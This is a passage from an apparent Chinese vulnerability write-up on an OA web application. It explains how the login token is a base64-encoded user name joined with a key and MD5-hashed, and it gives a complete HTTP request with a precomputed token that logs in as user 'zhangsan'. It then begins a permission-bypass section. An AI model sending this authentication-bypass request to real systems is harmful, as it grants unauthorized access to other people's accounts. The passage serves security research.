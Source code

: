 那么构造逻辑即可成功登录，传入`user`​ base64 加密的内容并且跟 key 进行拼接后再 md5 加密传为`token`​，两者相等即可登录

前提是 user 是存在的 (跑一下就知道是 zhangsan 存在)

```plain
GET /oa/auth/withub?user=emhhbmdzYW4=&token=b336aa3ea64e703583bb7cbe6d924269 HTTP/1.1
Host: xxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# user zhangsan
```

[![](assets/1709083162-a51a5bd195350fdd9a197da38903cd6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110406-dea0bc14-d51c-1.png)

直接跳转即可登录了​​

## 权限绕过

找到这个文件 `api/modules/v1/controllers/UserController.php`​

[![](assets/1709083162-2de8dfccf6df0a17bb17da9fa4046cb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110419-e620f742-d51c-1.png)